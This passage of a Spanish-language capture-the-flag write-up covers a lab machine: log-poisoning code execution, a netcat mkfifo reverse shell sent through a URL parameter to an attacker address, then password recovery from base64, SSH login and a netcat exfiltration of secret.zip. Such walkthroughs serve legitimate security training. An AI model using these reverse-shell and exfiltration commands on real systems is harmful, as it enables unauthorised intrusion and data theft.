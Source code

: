 (Es ==importante== URLencodear los ``&`` en ``%26``)

- ``http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.25 443 >/tmp/f``

De esta forma si nos ponemos en escucha por el *puerto 443* en nuestra máquina de atacante, ganaremos acceso a la máquina víctima.

- ``nc -nlvp 443``

----
## Escalada de Privilegios

### User Pivoting al usuario ``Charix``

Si indagamos en el **directorio actual** en donde nos encontramos una vez ingresamos a la máquina con la Reverse Shell, veremos que hay un archivo llamado **``pwdbackup.txt``** que si observamos su contenido, habrá una contraseña en **base64** que como se indica está codificada más de una vez, por lo tanto realizamos la decodificación.

- **``echo "cadena-en-base64" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d``**

De esta forma conseguiremos la **contraseña** de lo que parece ser el usuario ``Charix:Charix!2#4%6&8(0`` por lo tanto intentamos conectarnos por *SSH*.

- **``ssh charix@10.10.10.84``**

Luego proporcionamos la contraseña y conseguimos acceso al usuario **``Charix``**.

------
### Escalada al usuario ``root``

Luego de ganar acceso al usuario **``Charix``**, nuestro objetivo es conseguir el usuario **``root``**, por lo tanto comenzamos con el reconocimiento.

Detectamos que en el directorio actual de ``Charix`` hay un archivo llamado **``secret.zip``**, por lo tanto nos lo pasaremos a nuestro máquina de atacante para analizarlo con certeza.

- ``nc -nlvp 443 > secret.zip`` --> Máquina atacante
- ``nc 10.10.14.25 443 < secret.zip``  --> Máquina víctima

De esta forma conseguiremos el archivo ``secret.zip`` en nuestra **máquina de atacante**.

Descubrimos que el archivo posee contraseña y que esta es ``Charix!2#4%6&8(0``, es decir, se **reutilizó la contraseña** del usuario ``Charix`` para el archivo ``secret.zip``. Ahora si observamos el contenido de dicho archivo ya descomprimido, veremos que no posee caracteres legibles ni nada que nos brinde información.

![[P 2.png]]

Intentamos realizar fuerza bruta con *``zip2john``* y *``john``* con el diccionario *``rockyou.txt``* pero no se obtuvo respuesta, por lo tanto podemos intuir que se trata de alguna clave o algo en particular.

----

